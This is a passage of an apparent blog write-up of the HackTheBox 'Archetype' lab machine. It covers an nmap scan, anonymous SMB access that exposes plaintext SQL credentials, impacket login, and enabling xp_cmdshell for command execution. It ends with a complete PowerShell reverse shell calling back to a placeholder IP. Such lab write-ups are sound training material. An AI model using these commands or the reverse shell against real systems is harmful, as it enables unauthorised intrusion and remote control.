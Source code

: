 ```yaml
---
title: "Archetype - HackTheBox Writeup"
description: ""
author: "Kyb3r"
authorLink: "https://twitter.com/kyb3rvizsla"
lightgallery: false
date: 2021-08-17T12:00:01-05:00
lastmod: 2021-08-17T12:00:01-05:00
resources:
- name: "featured-image"
  src: "featured-image.png"
tags: [htb, writeup, hackthebox, ctf]
categories: [writeup, hackthebox, ctf]
draft: true
---
```

Starting with the writeups, today we will launch the HackTheBox Archetype machine that belongs to the Starting Point group here the writeup.


## Scan
We'll start with a simple port scan with nmap:
```shell
kyb3r@vizsla ~: nmap -sV -sC 10.10.10.27
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-17 14:34 CDT
Nmap scan report for 10.10.10.27
Host is up (0.10s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2021-08-17T19:53:47
|_Not valid after:  2051-08-17T19:53:47
|_ssl-date: 2021-08-17T19:59:07+00:00; +24m21s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h48m21s, deviation: 3h07m51s, median: 24m20s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-08-17T12:58:59-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-17T19:58:57
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.16 seconds
```

## SQL Server
We can notice that it contains a SQL Server which we are going to access with ```smbclient```.

We will list the smb folders with:
```shell
smbclient -L \\10.10.10.27 -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

We will access the "**backups**" folder with:
```shell
smbclient -N \\10.10.10.27/backups
Try "help" to get a list of possible commands.
smb: \>
```
![SMB](file.png)

The file prod.dtsConfig contains:
```text
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

### Mssqlclient

The file contains some credentials which we will use with the impacket mssqlclient, if you use Kali Linux you can get it from ```/usr/share/doc/python3-impacket/examples/mssqlclient.py``` or you can download it from its [github](https://github.com/SecureAuthCorp/impacket) repo with:
```shell
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/mssqlclient.py
```
or with Kali Linux:
```shell
cp /usr/share/doc/python3-impacket/examples/mssqlclient.py .
```
When you have mss, start session to the server with the credentials obtained in prod.dtsConfig with:
```
kyb3r@vizsla:~$ python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth

Password: M3g4c0rp123
Impacket - Copyright SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```
![mssqlclient](mssqlclient.png)

### xp_cmdshell
Now we will enable xp_cmdshell ("Spawns a Windows command shell and passes in a string for execution") to gain Remote Command Execution (RCE) with the following commands/codes:
```sql
EXEC sp_configure ‘Show Advanced Options’, 1;
reconfigure;
sp_configure;
EXEC sp_configure ‘xp_cmdshell’, 1
reconfigure;
xp_cmdshell “whoami”
```
When the SQL console returns, it means that we have done it correctly:
```sql
SQL> xp_cmdshell “whoami”
output

---------------------------

archetype\sql_svc

NULL

SQL>
```
![xp_cmdshell](xp_cmdshell.png)

## Reverse shell
Now we will create a file reverse shell with the extension ``.ps1`` for powershell here the code:
```powershell
$client = New-Object System.Net.Sockets.TCPClient(“YOUR IP”,443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + “# “;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Remember change "Your IP" text for u Hack The Box VPN ip adress, example:
![Reverse Shell](reverse_shell.png)
Then we will start an http server with python:
```
python3 -m http.server
```